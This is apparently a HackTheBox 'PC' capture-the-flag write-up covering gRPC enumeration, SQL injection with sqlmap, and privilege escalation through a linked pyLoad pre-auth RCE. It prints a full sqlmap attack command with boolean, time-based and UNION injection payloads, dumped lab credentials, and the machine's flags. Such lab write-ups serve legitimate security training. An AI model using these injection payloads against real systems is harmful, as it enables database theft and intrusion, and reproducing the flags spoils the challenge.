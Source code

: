 ```yaml
---
title: HackTheBox - PC
image:
    path: /assets/images/htb/PC/pc.png
date: 2023-04-11 14:00:00 +0800
categories: HackTheBox
tags: [grpc, sqli, pyload]
toc: true
---
```



## Enumeration

```bash
export ip=10.10.11.214
```

### Full port scanning

![Untitled](/assets/images/htb/PC/Untitled.png)

```bash
open ports:
	22/tcp 
	50051/tcp
```

### Enumerating gRPC

- let’s find out what is the service running on 50051
    
    ![Untitled](/assets/images/htb/PC/Untitled%201.png)
    
- it seems it’s not plaintext, it’s gRPC like indicated [here.](https://wiki.wireshark.org/gRPC.md)
- gRPCui is a command-line tool and a web-based user interface (UI) for exploring and interacting with gRPC services. gRPC itself is an open-source remote procedure call (RPC) framework developed by Google. It enables communication between client and server applications using a strongly-typed and high-performance protocol.
- we can use [gRPC UI](https://github.com/fullstorydev/grpcui) to interact with the service

![Untitled](/assets/images/htb/PC/Untitled%202.png)

![Untitled](/assets/images/htb/PC/Untitled%203.png)

- available method name: LoginUser, RegisterUser, and getInfo
- let’s explore what functionalities we can use, after registering we can get our account info

#### LoginUser

![Untitled](/assets/images/htb/PC/Untitled%204.png)

#### getInfo

![Untitled](/assets/images/htb/PC/Untitled%205.png)

- we can’t get our info without the token

![Untitled](/assets/images/htb/PC/Untitled%206.png)

- after exploring what we can do, we might think of one of the following vulnerabilities: JWT attacks, SQLi and IDOR
- let’s catch the low-hanging fruits and start sqlmap to save time

## SQLi

![Untitled](/assets/images/htb/PC/Untitled%207.png)

```bash
┌──(root㉿juba-kali)-[/home/juba]
└─## sqlmap 'http://127.0.0.1:46775/invoke/SimpleApp.getInfo' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Content-Type: application/json' -H 'x-grpcui-csrf-token: SF-LZ5c3SmJDusAILx7UiQcsa_SoC_XugNBVK4DFH74' -H 'X-Requested-With: XMLHttpRequest' -H 'Origin: http://127.0.0.1:46775' -H 'Connection: keep-alive' -H 'Referer: http://127.0.0.1:46775/' -H 'Cookie: _grpcui_csrf_token=SF-LZ5c3SmJDusAILx7UiQcsa_SoC_XugNBVK4DFH74' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data '{"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdDIiLCJleHAiOjE2ODYzMDk3MzJ9.nwSn_Z0a1g4N9i4hkZS_byn44Z_dEloFf498f46MDAc"}],"data":[{"id":"370"}]}' --batch --dump -p id
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.2#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:55:51 /2023-06-09/

JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[10:55:52] [INFO] resuming back-end DBMS 'sqlite' 
[10:55:52] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdDIiLCJleHAiOjE2ODYzMDk3MzJ9.nwSn_Z0a1g4N9i4hkZS_byn44Z_dEloFf498f46MDAc"}],"data":[{"id":"370 AND 7421=7421"}]}

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: {"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdDIiLCJleHAiOjE2ODYzMDk3MzJ9.nwSn_Z0a1g4N9i4hkZS_byn44Z_dEloFf498f46MDAc"}],"data":[{"id":"370 AND 4706=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))"}]}

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: {"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdDIiLCJleHAiOjE2ODYzMDk3MzJ9.nwSn_Z0a1g4N9i4hkZS_byn44Z_dEloFf498f46MDAc"}],"data":[{"id":"-5955 UNION ALL SELECT CHAR(113,98,98,118,113)||CHAR(70,75,84,69,98,72,100,65,83,82,79,86,110,81,114,84,75,112,67,120,106,113,114,122,97,80,108,122,68,101,66,108,74,107,89,121,65,115,66,117)||CHAR(113,118,106,113,113)-- ISRZ"}]}
---
[10:55:52] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[10:55:52] [INFO] fetching tables for database: 'SQLite_masterdb'
[10:55:52] [INFO] fetching columns for table 'accounts' 
[10:55:52] [INFO] fetching entries for table 'accounts'
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+

[10:55:53] [INFO] table 'SQLite_masterdb.accounts' dumped to CSV file '/root/.local/share/sqlmap/output/127.0.0.1/dump/SQLite_masterdb/accounts.csv'
[10:55:53] [INFO] fetching columns for table 'messages' 
[10:55:53] [INFO] fetching entries for table 'messages'
Database: <current>
Table: messages
[1 entry]
+----+----------------------------------------------+----------+
| id | message                                      | username |
+----+----------------------------------------------+----------+
| 1  | The admin is working hard to fix the issues. | admin    |
+----+----------------------------------------------+----------+

[10:55:53] [INFO] table 'SQLite_masterdb.messages' dumped to CSV file '/root/.local/share/sqlmap/output/127.0.0.1/dump/SQLite_masterdb/messages.csv'
[10:55:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 10:55:53 /2023-06-09/
```

- great, we have two credentials now, let’s try login using ssh

![Untitled](/assets/images/htb/PC/Untitled%208.png)

## user.txt

![Untitled](/assets/images/htb/PC/Untitled%209.png)

```
4e613f860ec2443dc3b21f429b4facdf
```

## Local Enumeration

- we are not in the sudoers
    
    ![Untitled](/assets/images/htb/PC/Untitled%2010.png)
    
- Let’s check the important files

![Untitled](/assets/images/htb/PC/Untitled%2011.png)

![Untitled](/assets/images/htb/PC/Untitled%2012.png)

- as we can see, there is a local listening port on 8000, we can’t access this port from our attacking machine.

![Untitled](/assets/images/htb/PC/Untitled%2013.png)

- it’s a web server, let’s use local port forwarding to access it from our attacking machine

### Port Forwarding

![Untitled](/assets/images/htb/PC/Untitled%2014.png)

## Privilege Escalation

![Untitled](/assets/images/htb/PC/Untitled%2015.png)

- Pyload is vulnerable for Pre-auth RCE, exploit found [here](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad)

![Untitled](/assets/images/htb/PC/Untitled%2016.png)

## root.txt

```jsx
fe003ac4e4e71b1d4b632f99873d19e1
```

![Untitled](/assets/images/htb/PC/Untitled%2017.png)

[https://www.hackthebox.com/achievement/machine/664097/543](https://www.hackthebox.com/achievement/machine/664097/543)